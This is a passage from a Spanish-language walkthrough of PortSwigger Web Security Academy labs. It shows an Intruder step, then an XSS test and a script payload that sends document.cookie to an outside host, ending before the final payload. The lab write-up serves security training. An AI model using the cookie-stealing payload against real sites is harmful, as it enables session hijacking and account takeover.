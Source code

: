 Y luego hacemos clic en **Start Attack**. Luego ordenamos por **Status** y obtenemos que hay una solicitud con codigo 200 que envio un payload. Le damos clic derecho **Show in response in browser**, y copiamos el link y lo pegamos en el navegador.

![](img55.png)

Y Listo :D.

## 11. Lab: Offline password cracking

En este nivel, lo que haremos será logearnos, luego vamos a un post cualquiera, y verificamos si es que es vulnerable a XSS. Lo haremos de manera simple con el siguiente payload.

```html
<h1>a</h1>
```

Y como podemos ver, si funciona el XSS.

![](img56.png)

Ahora lo que haremos será extraer la cookie por XSS mediante el siguiente payload.

```html
<script>document.location = 'http://www.example.com/'+document.cookie</script>
```

Ahora en el laboratorio hacemos clic en el boon que dice: **Go To Exploit Server**

y copiamos la url que nos dá la cual es:

```html
https://ac7c1f021e27dd52807d874e0145004b.web-security-academy.net/exploit
```

Entonces ahora nuestro payload será:
